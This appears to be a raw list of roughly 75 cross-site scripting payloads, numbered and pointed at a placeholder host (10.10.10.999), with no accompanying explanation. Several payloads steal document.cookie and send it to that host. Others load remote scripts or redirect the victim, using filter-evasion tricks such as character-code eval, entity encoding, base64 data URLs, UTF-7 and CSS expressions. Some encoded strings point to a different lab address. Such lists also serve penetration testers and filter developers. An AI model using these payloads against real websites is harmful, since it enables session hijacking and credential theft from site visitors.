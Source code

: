 
<script>document.location="http://10.10.10.999/xss-76.js?c="+document.cookie;</script>
<img src=x onerror=document.location="http://10.10.10.999/xss-75.js?c="+document.cookie>
<SCRIPT>window.location.replace('http://10.10.10.999/XSS-1');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://10.10.10.999/xss-2.js></SCRIPT>
<IMG SRC="javascript:window.location.replace('http://10.10.10.999/XSS-3');">
<IMG SRC=javascript:window.location.replace('http://10.10.10.999/XSS-4')>
<IMG SRC=JaVaScRiPt:window.location.replace('http://10.10.10.999/XSS-5')>
<IMG SRC=javascript:window.location.replace(&quot;http://10.10.10.999/XSS-6&quot;)>
<IMG SRC=`javascript:window.location.replace('http://10.10.10.999/XSS-7')`>
<IMG SRC=javascript:eval(String.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,104,116,116,112,58,47,47,49,57,50,46,49,54,56,46,53,54,46,49,48,54,47,88,83,83,45,57,39,41));)>
SRC=&#10<IMG 6;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav   ascript:window.location.replace('http://10.10.10.999/XSS-13');">
<IMG SRC="jav&#x09;ascript:window.location.replace('http://10.10.10.999/XSS-14');">
<IMG SRC="jav&#x0A;ascript:window.location.replace('http://10.10.10.999/XSS-15');">
<IMG SRC="jav&#x0D;ascript:window.location.replace('http://10.10.10.999/XSS-16');">
<IMG SRC=" &#14;  javascript:window.location.replace('http://10.10.10.999/XSS-17');">
<SCRIPT/XSS SRC="http://10.10.10.999/xss-18.js"></SCRIPT>
<SCRIPT SRC=http://10.10.10.999/xss-19.js?<B>
<IMG SRC="javascript:window.location.replace('http://10.10.10.999/XSS-20')"
<SCRIPT>a=/XSS/
\";window.location.replace('http://10.10.10.999/XSS-22');//
<INPUT TYPE="IMAGE" SRC="javascript:window.location.replace('http://10.10.10.999/XSS-23');">
<BODY BACKGROUND="javascript:window.location.replace('http://10.10.10.999/XSS-24')">
<BODY ONLOAD=window.location.replace('http://10.10.10.999/XSS-25')>
<IMG DYNSRC="javascript:window.location.replace('http://10.10.10.999/XSS-26')">
<IMG LOWSRC="javascript:window.location.replace('http://10.10.10.999/XSS-27')">
<BGSOUND SRC="javascript:window.location.replace('http://10.10.10.999/XSS-28');">
<BR SIZE="&{window.location.replace('http://10.10.10.999/XSS-29')}">
<LAYER SRC="http://10.10.10.999/scriptlet-30.html"></LAYER>
<LINK REL="stylesheet" HREF="javascript:window.location.replace('http://10.10.10.999/XSS-31');">
<LINK REL="stylesheet" HREF="http://10.10.10.999/xss-32.css">
<STYLE>@import'http://10.10.10.999/xss-33.css';</STYLE>
<META HTTP-EQUIV="Link" Content="<http://10.10.10.999/xss-34.css>; REL=stylesheet">
<STYLE>BODY{-moz-binding:url("http://10.10.10.999/xssmoz-35.xml#xss")}</STYLE>
<IMG SRC='vbscript:msgbox("XSS")'>
<IMG SRC="mocha:[code]">
<IMG SRC="livescript:[code]">
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:window.location.replace('http://10.10.10.999/XSS-38');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD53aW5kb3cubG9jYXRpb24ucmVwbGFjZSgnaHR0cDovLzE5Mi4xNjguNTYuMTA2L1hTUy00MCcpOzwvc2NyaVB0Pg==">
<META HTTP-EQUIV="Link" Content="<javascript:window.location.replace('http://10.10.10.999/XSS-41')>; REL=stylesheet">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:window.location.replace('http://10.10.10.999/XSS-42');">
<IFRAME SRC="javascript:window.location.replace('http://10.10.10.999/XSS-43');"></IFRAME>
<FRAMESET><FRAME SRC="javascript:window.location.replace('http://10.10.10.999/XSS-44');"></FRAMESET>
<TABLE BACKGROUND="javascript:window.location.replace('http://10.10.10.999/XSS-45')">
<DIV STYLE="background-image: url(javascript:window.location.replace('http://10.10.10.999/XSS-46'))">
<DIV STYLE="background-image: url(&#1;javascript:window.location.replace('http://10.10.10.999/XSS-47'))">
<DIV STYLE="width: expression(window.location.replace('http://10.10.10.999/XSS-48'));">
<STYLE>@im\port'\ja\vasc\ript:window.location.replace("http://10.10.10.999/XSS-49")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(window.location.replace('http://10.10.10.999/XSS-50'))">
<XSS STYLE="xss:expression(window.location.replace('http://10.10.10.999/XSS-51'))">
exp/*<XSS STYLE='no\xss:noxss("*//*");
<STYLE TYPE="text/javascript">window.location.replace('http://10.10.10.999/XSS-53');</STYLE>
<STYLE>.XSS{background-image:url(javascript:window.location.replace('http://10.10.10.999/XSS-54'));}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url(javascript:window.location.replace('http://10.10.10.999/XSS-55'))}</STYLE>
<BASE HREF="javascript:window.location.replace('http://10.10.10.999/XSS-56');//">
<OBJECT TYPE="text/x-scriptlet" DATA="http://10.10.10.999/scriptlet-57.html"></OBJECT>
<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:window.location.replace('http://10.10.10.999/XSS-58')></OBJECT>
getURL("javascript:window.location.replace('http://10.10.10.999/XSS-59')")
a="get";
<!--<value><![CDATA[<XML ID=I><X><C><![CDATA[<IMG SRC="javas<![CDATA[cript:window.location.replace('http://10.10.10.999/XSS-61');">
<XML SRC="http://10.10.10.999/xsstest-62.xml" ID=I></XML>
<HTML><BODY>
<SCRIPT SRC="http://10.10.10.999/xss-64.jpg"></SCRIPT>
<!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo '=http://10.10.10.999/xss-65.js></SCRIPT>'"-->
<? echo('<SCR)';
<META HTTP-EQUIV="Set-Cookie" Content="USERID=&lt;SCRIPT&gt;window.location.replace('http://10.10.10.999/XSS-67')&lt;/SCRIPT&gt;">
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-window.location.replace('http://10.10.10.999/XSS-68');+ADw-/SCRIPT+AD4-
<SCRIPT a=">" SRC="http://10.10.10.999/xss-69.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://10.10.10.999/xss-70.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://10.10.10.999/xss-71.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://10.10.10.999/xss-72.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://10.10.10.999/xss-73.js"></SCRIPT>
<img src=x onerror=this.src="http://10.10.10.999/xss-74.js?c="+document.cookie>

